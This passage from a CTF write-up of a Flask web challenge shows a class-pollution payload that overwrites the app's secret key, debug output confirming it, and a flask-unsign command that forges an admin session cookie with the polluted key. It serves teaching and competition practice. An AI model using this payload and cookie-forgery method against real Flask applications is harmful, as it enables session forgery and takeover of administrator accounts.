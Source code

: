 ```shell
root@2ff4890118ce:/python-docker# python test.py
{'welcome': 'Test of new template system: {%block test%}Block test{%endblock%}'}
Polluted secret
```

It worked!

**After some painful debugging, I found [this CTF writeup from idekCTF 2022](https://ctftime.org/writeup/36082):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507155751.png)

**When using the following payload, it polluted the Flask's secret key:**
```py
__class__.__init__.__globals__.__spec__.loader.__init__.__globals__.sys.modules.__main__.app.secret_key
```

**Debug route:**
```py
app.secret_key = '(:secret:)'
youShallNotPass = 'no!'
[...]
@app.route('/youShallNotPass')
def index_1():
    print(youShallNotPass)
    print(app.config)
    # print(articles.__class__.__init__.__globals__)
    return redirect('/')
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PwnMe-2023-8-bits/images/Pasted%20image%2020230507160033.png)

```
172.17.0.1 - - [07/May/2023 07:59:28] "POST /create HTTP/1.1" 302 -
172.17.0.1 - - [07/May/2023 07:59:28] "GET /articles HTTP/1.1" 200 -
172.17.0.1 - - [07/May/2023 07:59:28] "GET /static/style.css HTTP/1.1" 304 -
no!
<Config {'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'test', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```

**Then, we can use [`flask-unsign`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign) to sign the session cookie with our polluted session key!**
```shell
┌[siunam♥earth]-(~/ctf/PwnMe-2023-8-bits/Web/Anozer-Blog)-[2023.05.07|16:13:44(HKT)]
└> /home/siunam/.local/bin/flask-unsign --sign --cookie "{'user': {'seeTemplate': True, 'username': 'admin'}}" --secret 'test'
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn19.ZFdeIw._87tCmpjZdrlwxeR1co-5ziDycg
```
